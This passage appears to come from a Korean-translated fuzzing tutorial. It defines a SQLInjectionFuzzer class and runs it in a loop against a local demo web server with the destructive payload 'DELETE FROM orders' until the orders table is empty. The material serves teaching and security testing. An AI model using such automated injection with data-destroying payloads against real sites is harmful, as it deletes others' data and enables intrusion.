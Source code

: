 ```python
orders_db_is_empty()
```

```python
False
```

우리는 이 모든 것을 자동으로 수행하는 SQLInjectionFuzzer를 만듭니다.

```python
class SQLInjectionFuzzer(WebFormFuzzer):
    """Simple demonstrator of a SQL Injection Fuzzer"""

    def __init__(self, url: str, sql_payload : str ="", *,
                 sql_injection_grammar_miner_class: Optional[type] = None,
                 **kwargs):
        """Constructor.
        `url` - the Web page (with a form) to retrieve
        `sql_payload` - the SQL command to execute
        `sql_injection_grammar_miner_class` - the miner to be used
            (default: SQLInjectionGrammarMiner)
        Other keyword arguments are passed to `WebFormFuzzer`.
        """
        self.sql_payload = sql_payload

        if sql_injection_grammar_miner_class is None:
            sql_injection_grammar_miner_class = SQLInjectionGrammarMiner
        self.sql_injection_grammar_miner_class = sql_injection_grammar_miner_class

        super().__init__(url, **kwargs)

    def get_grammar(self, html_text):
        """Obtain a grammar with SQL injection commands"""

        grammar_miner = self.sql_injection_grammar_miner_class(
            html_text, sql_payload=self.sql_payload)
        return grammar_miner.mine_grammar()
```

```python
sql_fuzzer = SQLInjectionFuzzer(httpd_url, "DELETE FROM orders")
web_runner = WebRunner(httpd_url)
trials = 1

while True:
    sql_fuzzer.run(web_runner)
    if orders_db_is_empty():
        break
    trials += 1
```

```python
trials
```
